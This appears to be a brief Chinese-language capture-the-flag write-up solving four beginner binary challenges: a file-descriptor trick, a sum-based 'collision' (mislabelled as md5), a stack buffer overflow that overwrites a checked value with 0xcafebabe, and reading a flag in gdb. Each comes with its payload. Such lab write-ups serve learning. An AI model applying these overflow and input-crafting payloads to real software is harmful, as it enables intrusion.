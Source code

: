 # Toddler's Bottle
## fd
1. 從fd讀取32byte到buf, buf == "LETMEWIN"  
2. fd = atoi(argv[1]) - 0x1234
=> fd = 0(stdin) = 4660 - 0x1234
payload = 4660

## collision
md5 collision  
題目要求password的總和 == 0x21DD09EC  
0x21DD09EC / 5 = 0x6c5cec8 * 4 + 0x6c5cecc
payload = "\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06"

## bof
最基本bof  
disassemble:
```
0x00000649    8d45d4       lea eax, [ebp-0x2c]
0x0000064c    890424       mov [esp], eax
0x0000064f    e8fcffffff   call 0x100000650 ; get
0x00000654    817d08bebaf. cmp dword [ebp+0x8], 0xcafebabe
```
可以看到get到ebp-0x2c, 而密碼在ebp+0x8  
因此offset = 0x2c+0x8 = 0x34 = 52
payload = "A"*52+p32(0xcafebabe)

## flag
這題提示很清楚，程式會malloc一段記憶體，並使用strcpy複製flag到記憶體中，因此只要使用gdb很容易就能看到flag


